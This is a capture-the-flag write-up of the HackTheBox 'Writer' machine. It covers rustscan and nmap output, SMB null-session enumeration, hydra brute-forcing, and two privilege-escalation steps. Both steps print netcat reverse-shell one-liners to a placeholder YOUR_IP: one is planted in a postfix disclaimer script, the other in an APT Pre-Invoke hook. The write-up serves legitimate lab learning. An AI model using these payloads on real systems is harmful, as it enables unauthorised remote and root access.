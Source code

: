 
# HackTheBox(HTB) - Writer - WriteUp

> Austin Lai | November 19th, 2021

---

<!-- Description -->

![writer](img/writer.png)

Difficulty: Easy

The room is completed on November 17th, 2021

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [HackTheBox(HTB) - Writer - WriteUp](#hacktheboxhtb---writer---writeup)
    - [Table of Contents](#table-of-contents)
    - [Let's Begin Here !!!](#lets-begin-here-)
        - [Network Reconnaissance](#network-reconnaissance)
        - [Web Fuzzing](#web-fuzzing)
        - [SMB Enumeration](#smb-enumeration)
        - [Login via SSH](#login-via-ssh)
        - [Privilege Escalation - Root](#privilege-escalation---root)

<!-- /TOC -->

---

## Let's Begin Here !!!

Start the instance and perform rustscan for network reconnaissance.

### Network Reconnaissance

Rustscan:

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com
[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.101:22
Open 10.10.11.101:80
Open 10.10.11.101:139
Open 10.10.11.101:445
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-14 21:13 +08

PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Completed NSE at 21:14, 0.00s elapsed
Nmap done: 1 IP address (1 host up) scanned in 13.59 seconds
           Raw packets sent: 4 (176B) | Rcvd: 4 (176B)
```

### Web Fuzzing

Check on port 80 - HTTP.

StoryBank:

![storybank](img/storybank.png)

About page:

![about-page](img/about-page.png)

Notice there is an email given in the about page, and a domain as well.

We can add into our host file for easy access.

And we perform a web fuzzing through gobuster directories listing and it does not contain much information.

Gobuster:

```
http://10.10.11.101/about                (Status: 200) [Size: 3522]
http://10.10.11.101/contact              (Status: 200) [Size: 4905]
http://10.10.11.101/dashboard            (Status: 302) [Size: 208] [--> http://10.10.11.101/]
http://10.10.11.101/logout               (Status: 302) [Size: 208] [--> http://10.10.11.101/]
http://10.10.11.101/server-status        (Status: 403) [Size: 277]
http://10.10.11.101/static               (Status: 301) [Size: 313] [--> http://10.10.11.101/static/]
```

We have also tried nikto scan and gobuster vhost scan, nothing yield a positive result.

### SMB Enumeration

From the rustscan, we know there is smb service available.

We try to check on the service using ` smbclient `

![smb-listing](img/smb-listing.png)

If you check against smbmap, there is no anonymous access.

After GOOGLE awhile, there is an article regarding enumeration done via rpcclient for null sessions, you can check out [here](https://infinitelogins.com/2020/06/17/enumerating-smb-for-pentesting/)

First, let's test for null or authenticated session of smb:

![null-session-rpcclient-smb](img/null-session-rpcclient-smb.png)

That's a great start, we now login in !

Following the article, we can try enumerate user from the session using ` enumdomusers ` and ` queryuser ` command.

![enum-user-from-rpcclient-null-session](img/enum-user-from-rpcclient-null-session.png)

Since we only have a valid username, there is no other way to get the password, so might as well we go for hydra.

After a while, we are getting the password from hydra.

![hydra-result](img/hydra-result.png)

### Login via SSH

As we get the password for our valid user, we now ssh in to the system and get the user.txt

We check sudo and suid, but nothing positive come back.

Then, we go for very basic to check if other user or group available in the system.

From the ` /etc/passwd `, we know that there is another user exist in the system.

From ` id ` command, we know that current user belong to one of the group ` filter `.

We then check if any file or folder readable by current user that is belong to the ` filter ` group, and here what we found.

![file-by-filter-group](img/file-by-filter-group.png)

Checking the content of ` /etc/postfix/disclaimer `

![content-of-disclaimer](img/content-of-disclaimer.png)

From the ` disclaimer `, it is a shell script that to process email once user received an email.

We check if we have write permission, and we have !

![write-permission-disclaimer](img/write-permission-disclaimer.png)

Great, we can append payload into it, in our case, we append reverse shell into it.

Reverse shell payload:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR_IP 9001 >/tmp/f" > /etc/postfix/disclaimer
```

However, the reverse shell did not work and we check the script again; it revert to default state.

As mentioned, the script will only run when a user receive an email.

So, we decided to write a [simple python send mail script](sendmail.py) with our current user.

```python
import smtplib

hostname = '127.0.0.1'
sender_email = 'REDACTED@writer.htb'
port = 25
receiver_email = 'REDACTED@writer.htb'
message = ' Send email to john '

try:
	server = smtplib.SMTP(hostname,port)
	server.ehlo()
	server.sendmail(sender_email, receiver_email, message)
except Exception as e:
	print(e)
finally:
	server.quit()
```

And voila, we have reverse shell.

![reverse-shell](img/reverse-shell.png)

We then check the user home directory and there is ssh key, we copy over and we now can ssh in using the ssh key.

### Privilege Escalation - Root

From here, we start off basic enumeration and nothing to be found.

Again, checking the ` id ` command, this time; the user belong to ` management ` group.

![management-group](img/management-group.png)

Once again, we check if any file or folder readable by current user that is belong to the ` management ` group, and here what we found.

![folder-management-group](img/folder-management-group.png)

Interesting, quick research will give you an article on [APT PrivEsc](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)

There is one specific section talk about ` /etc/apt/apt.conf.d `

The payload to PrivEsc:

```bash
cd /etc/apt/apt.conf.d

echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 9001 >/tmp/f"};' > pwn
```

And here you go with root access of reverse shell.

![root-reverse-shell](img/root-reverse-shell.png)

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB

